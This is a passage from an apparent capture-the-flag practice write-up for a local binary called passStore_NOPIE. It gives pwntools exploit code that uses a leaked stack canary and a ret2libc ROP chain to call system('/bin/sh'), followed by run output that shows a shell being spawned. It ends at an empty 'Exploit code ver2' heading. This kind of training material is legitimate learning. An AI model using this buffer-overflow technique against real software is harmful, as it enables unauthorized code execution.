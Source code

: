 ```python


system_offset = libc.symbols['system'] #
binsh_offset = next(libc.search(b'/bin/sh\x00'))
pop_rdi_ret = rop.find_gadget(['pop rdi', 'ret'])[0]

system_addr = libc_base + system_offset
binsh_addr = libc_base + binsh_offset
log.info("system addr : " + hex(system_addr)) 
log.info("/bin/sh addr : " + hex(binsh_addr)) 

junk = b"a"*56 + p64(u64(canary)) + b"a"*8 
payload4 = junk +p64(ret)+ p64(pop_rdi_ret) + p64(binsh_addr) +p64(system_addr)

r.sendline(payload4)

r.interactive()

```

#### Result ver1

```shell
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/pwn_from_blabla/training/chall_bof/passStore_NOPIE$ python3 exploit.py
[*] '/mnt/d/pwn_myself/pwn_from_blabla/training/chall_bof/passStore_NOPIE/passStore_NOPIE'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 6 cached gadgets for './passStore_NOPIE'
[+] Starting local process '/mnt/d/pwn_myself/pwn_from_blabla/training/chall_bof/passStore_NOPIE/passStore_NOPIE': pid 25200
[*] Leaked canary: 0xa5bb53678c3c3100
[*] libc base addr : 0x7f8adb24b000
[*] system addr : 0x7f8adb29bd60
[*] /bin/sh addr : 0x7f8adb423698
[*] Switching to interactive mode
$ ls
core  exploit.py  leak.py  passStore_NOPIE

```


#### Exploit code ver2
